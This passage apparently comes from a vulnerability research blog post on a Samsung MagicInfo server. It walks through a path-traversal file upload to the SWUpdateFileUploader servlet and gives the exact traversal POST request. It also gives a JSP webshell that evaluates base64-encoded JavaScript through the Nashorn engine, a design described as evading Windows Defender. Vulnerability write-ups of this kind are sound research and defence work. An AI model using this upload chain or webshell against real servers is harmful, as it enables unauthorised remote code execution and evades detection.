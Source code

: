 So, to exploit this we should interact with either port 7001 or 7002.
Further more, we must find the path.
`config.js` shows us the backend root path.
We know that a `robots.txt` is present at the root of the `server`, so we can validate `/MagicInfo` is the root by searching for `/MagicInfo/robots.txt`.
The rest of the path to access our servlet can be extracted from `web.xml`.

Know, we must know where the file gets uploaded, to know how to manipulate the path to upload to the root of our backend.

```java
swUpdateFileFolderPath = CommonConfig.get("UPLOAD_HOME").replace('/', File.separatorChar) + File.separator + "admin" + File.separator + "software" + File.separator + "application";
swUpdateFilePath = swUpdateFileFolderPath + File.separator + savedFileName;
```

From the code, we see that a static path, taken from the config file, gets appended to "/admin/software/application".
Checking the Tomcat configuration file, we see that `UPLOAD_HOME=C:\MagicInfo Premium/runtime/upload`.
So, if we input "ACID" as our filename, the final path looks like this: `C:\MagicInfo Premium\runtime\upload\admin\software\application\timestamp{ACID}`.
We want to write our file inside `C:\MagicInfo Premium\server\`, so a path such as: `C:\MagicInfo Premium\runtime\upload\admin\software\application\timestamp\..\..\..\..\..\..\server\ourfile.jsp` is needed.

To upload a file, we want to make a POST request to `/MagicInfo/servlet/SWUpdateFileUploader?fileName=/../../../../../../server/{filename}.{ext}&deviceType=test&deviceModelName=test&swVer=1234` with the file content as the request body.
Then, we can check if the file got uploaded under `/MagicInfo/`, or directly on the machine inside the `server` directory.

However, we must find a way to turn the arbitrary file write to a remote code execution vulnerability.
In theory, this shouldn't be hard, as JSP webshells can be found online.
However, most of these shells are detected by Windows Defender, so our exploit won't work / will have a short life. 

What we can do instead, is to use JSP to instantiate a Java script engine, such as Nashorn.
Then, use `eval` to run arbitrary Javascript/Java code. (Nashorn allows Javascript to invoke Java methods)
This approach evades Defender (at the time of writting this blog post).

This JSP code, will receive Javascript code, Base64 encoded, and it will evaluate it at runtime.

```jsp
<%@ page import="java.util.*,java.io.*,javax.script.*" %>
<%
String base64Input = request.getParameter("input");
String key = request.getParameter("key");

if (key.equals("mykey") && base64Input != null) {
    ScriptEngineManager factory = new ScriptEngineManager();
    ScriptEngine engine = factory.getEngineByName("nashorn");
    byte[] decodedBytes = Base64.getDecoder().decode(base64Input);
    engine.put("out", out);
    engine.eval(new String(decodedBytes));
}
%>
```
